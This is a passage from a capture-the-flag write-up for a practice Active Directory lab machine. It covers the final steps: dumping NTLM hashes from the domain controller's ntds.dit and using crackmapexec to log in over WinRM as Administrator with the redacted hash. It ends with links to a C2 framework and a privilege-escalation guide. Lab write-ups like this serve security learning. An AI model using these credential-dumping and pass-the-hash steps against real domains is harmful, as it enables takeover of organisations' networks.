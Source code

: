 This will dump the NTLM hashes for every user that has the ability to login to a service on the domain controller. At the bottom of the output, you'll find hashes for all of the AD users that we dumped through LDAP at the beginning of this machine.

Underneath `[*] Reading and decrypting hashes from ntds.dit`, we'll find the correct NTLM hash for the Administrator user. We can verify our ability to connect with this using `crackmapexec` once more.

```Kali
└─$ crackmapexec winrm BabyDC.baby.vl -u 'Administrator' -H '[...snip...]'
SMB         BabyDC.baby.vl  5985   BABYDC           [*] Windows Server 2022 Build 20348 (name:BABYDC) (domain:baby.vl)
HTTP        BabyDC.baby.vl  5985   BABYDC           [*] http://BabyDC.baby.vl:5985/wsman
WINRM       BabyDC.baby.vl  5985   BABYDC           [+] baby.vl\Administrator:[...snip...] (Pwn3d!)
```

Thus, we have the ability to log in through WinRM as the Administrator. The root hash can be found within the Administrator's Desktop directory.

![image2](/images/vulnlab/baby-vl/c.png "C")

# Conclusion

This means we have rooted this machine! Credit goes to xct for the development of this machine. As said previously, this machine is really helpful if you want to learn Active Directory basics.

# Resources

https://lonewolf.my.site.com/s/article/DPN-Reset-Samba-Passwords#:~:text=At%20the%20%23%20prompt%20type%20in,is%20to%20reset%20the%20password.&text=To%20set%20up%20a%20new,will%20ask%20for%20the%20password
https://github.com/BishopFox/sliver
https://medium.com/r3d-buck3t/windows-privesc-with-sebackupprivilege-65d2cd1eb960


